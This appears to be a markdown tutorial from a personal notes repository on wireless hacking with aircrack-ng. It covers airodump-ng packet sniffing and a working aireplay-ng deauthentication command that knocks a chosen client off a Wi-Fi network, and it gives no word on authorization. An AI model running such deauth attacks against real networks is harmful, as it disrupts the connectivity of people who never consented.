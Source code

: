 # Wireless networking basics 02

## Sniff packets
- used tool: airodump-ng

- First enable monitor mode as described on `01_network_basics.MD`

```bash
airodump-ng wlan0 # starts sniffing. On default only 2.4GHz

airodump-ng --band a wlan0 # Sniff 5GHz

airodump-ng --band abg wlan0 # Sniff 2.4+5GHz
```
Description of the output:
- BSSID : target MAC adress
- PWR : signal strength (higher the nubmer, bigger the signal)
- Beacons: Frames sent by the network to broadcast its existence
- Data: number of data packets and data frames
- #/s: number of data packets collected in past 10s
- CH: channel that network works on
- MB: Maximum speed of network
- ENC: encryption of the network
- CIPHER: cipher used in the network
- AUTH: auth used on the network
- ESSID: Name of the network

## Sniff all data only from one target (see also all the connected clients)

```bash
airodump-ng --bssid B0:95:75:42:27:E3 --channel 44 --write test wlan0 # writes output to the files named "test". --bssid and --channel are from results of running previous command
```

## Deauthentication attack with aireplay-ng (disconnect user from WiFi)

Disconnect any device from any network without being part of that network (unauthenticated to the network)

```bash
aireplay-ng --deauth 10000000 -a B0:95:75:42:27:E3 -c 5A:6E:23:9B:29:D8 -D wlan0
```
- --deauth => deauth attack, send given number of packets
- --a => MAC adress of target network
- --c => client we want to disconnect
- -D needs to be only used if using 5GHz




